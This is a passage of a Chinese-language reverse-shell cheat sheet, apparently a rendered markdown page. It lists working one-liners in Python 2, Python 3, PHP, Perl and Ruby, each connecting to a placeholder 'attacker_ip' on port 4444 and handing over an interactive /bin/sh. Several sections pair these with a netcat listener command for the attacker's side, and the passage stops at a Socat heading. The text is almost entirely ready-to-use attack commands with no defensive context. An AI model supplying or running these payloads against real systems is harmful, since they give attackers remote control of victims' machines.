 #### 受害者机器反弹Shell命令
Python 2:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Python 3:
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

### 4. PHP反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```php
php -r '$sock=fsockopen("attacker_ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### 5. Perl反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```perl
perl -e 'use Socket;$i="attacker_ip";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### 6. Ruby反弹Shell

#### 攻击者机器 (接收机) 监听语句
```bash
nc -lvnp 4444
```

#### 受害者机器反弹Shell命令
```ruby
ruby -rsocket -e'f=TCPSocket.open("attacker_ip",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### 7. Socat反弹Shell
